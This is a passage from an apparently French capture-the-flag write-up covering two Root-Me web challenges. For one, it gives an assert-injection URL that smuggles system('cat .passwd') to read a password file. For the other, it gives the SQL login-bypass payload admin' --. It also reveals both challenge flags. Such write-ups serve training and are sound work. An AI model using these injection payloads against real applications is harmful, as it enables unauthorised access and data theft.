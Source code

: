 En visitant le site du challenge, on observe que le fichier PHP prend un paramètre GET `?page=flag` pour réaliser la navgitation. En se renseignant sur les attaques `LFI` / `Local File Inclusion`, on voit qu'on peut réécrire le code executé. En utilisant l'URL suivante : `http://challenge01.root-me.org/web-serveur/ch47/?page=', '0') === false and system("cat .passwd") and strpos('` et en concaténant des commandes entre les assertions, on parvient à obtenir le flag ***x4Ss3rT1nglSn0ts4f3A7A1Lx**.

```html
The flag is / Le flag est : x4Ss3rT1nglSn0ts4f3A7A1Lx Remember to sanitize all user input! / Pensez à valider toutes les entrées utilisateurs ! Don't use assert! / N'utilisez pas assert ! 'includes/', '0') === false and system("cat .passwd") and strpos('.php'File does not exist
```

 ## 18. SQL Injection 

On peut réaliser une injection SQL en bypassant le mot de passe grâce à la commande `--` qui termine la commande SQL.

Ainsi, en passant dans le formulaire en les datas `admin' --` et n'importe quoi dans le mot de passe, on obtient le flag **t0_W34k!$** dans le code HTML :

```html
<h2>Welcome back admin !</h2><h3>Your informations :</h3><p>- username : <input type="text" value="admin" disabled /><br/>- password : <input type="password" value="t0_W34k!$" disabled /></p><br />Hi master ! <b>To validate the challenge use this password</b>
```

En effet, les caractères `--` annulent la suite de la requête donc la requête selectionne uniquement le user admin sans utiliser le mot de passe.

## 19. 